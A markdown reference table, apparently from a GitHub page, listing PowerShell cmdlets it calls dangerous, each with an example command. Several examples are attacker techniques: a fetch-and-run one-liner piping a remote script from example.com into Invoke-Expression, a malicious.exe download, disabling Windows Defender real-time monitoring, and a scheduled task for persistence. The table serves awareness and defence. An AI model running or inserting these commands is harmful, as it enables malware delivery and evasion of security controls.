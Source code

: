 # Dangerous Inbuilt PowerShell Cmdlets

| **Cmdlet**                 | **Description**                                                      | **Example**                                                                 |
|---------------------------|----------------------------------------------------------------------|----------------------------------------------------------------------------|
| **`Invoke-Expression` (iex)** | Executes a string as a PowerShell command.                           | `iex $command`                                                              |
| **`Start-Process`**      | Launches a new process.                                            | `Start-Process "C:\path\to\malicious.exe"`                               |
| **`Invoke-WebRequest`**  | Sends HTTP and HTTPS requests.                                      | `Invoke-WebRequest -Uri "http://example.com/malicious.exe" -OutFile "C:\path\to\malicious.exe"` |
| **`Invoke-RestMethod`**  | Sends HTTP and HTTPS requests and processes the response.          | `Invoke-RestMethod -Uri "http://example.com/malicious.ps1" | Invoke-Expression` |
| **`New-Object`**         | Creates an instance of a .NET Framework or COM object.              | `$webClient = New-Object System.Net.WebClient`                            |
| **`Get-Content`**        | Retrieves the content of a file or other item.                      | `Get-Content "C:\path\to\malicious.ps1" | Invoke-Expression`              |
| **`Set-ExecutionPolicy`**| Changes the user preference for the PowerShell script execution policy. | `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`    |
| **`Add-Type`**           | Adds a .NET Framework type to a PowerShell session.                  | `Add-Type -TypeDefinition $typeDefinition`                               |
| **`Get-Process`**        | Retrieves a list of processes running on the local machine.        | `Get-Process \| Where-Object { $_.Name -eq "targetProcess" }`                 |
| **`Stop-Process`**      | Stops a running process.                                            | `Stop-Process -Name "maliciousProcess"`                                   |
| **`Remove-Item`**        | Deletes files or folders.                                           | `Remove-Item -Path "C:\path\to\file.txt" -Recurse -Force`                 |
| **`Set-MpPreference`**   | Configures Windows Defender preferences.                           | `Set-MpPreference -DisableRealtimeMonitoring $true`                       |
| **`Get-EventLog`**      | Retrieves entries from event logs.                                  | `Get-EventLog -LogName Security -Newest 10`                              |
| **`Export-Csv`**         | Exports data to a CSV file.                                         | `Get-Process \| Export-Csv -Path "C:\path\to\processes.csv"`                  |
| **`Get-EventSubscriber`**| Retrieves event subscribers.                                        | `Get-EventSubscriber`                                                     |
| **`New-PSDrive`**        | Creates a new PowerShell drive.                                    | `New-PSDrive -Name "RemoteDrive" -PSProvider FileSystem -Root "\\remote\share"` |
| **`Get-CimInstance`**    | Retrieves CIM (Common Information Model) instances.                 | `Get-CimInstance -ClassName Win32_OperatingSystem`                        |
| **`Get-ADUser`**        | Retrieves Active Directory user accounts.                           | `Get-ADUser -Filter * | Select-Object -Property Name,SamAccountName`      |
| **`Get-WmiObject`**    | Retrieves management information from WMI (Windows Management Instrumentation). | `Get-WmiObject -Class Win32_ComputerSystem`                              |
| **`New-ScheduledTask`** | Creates a new scheduled task.                                      | `New-ScheduledTask -Action (New-ScheduledTaskAction -Execute "C:\path\to\malicious.exe") -Trigger (New-ScheduledTaskTrigger -Daily -At 3am)` |


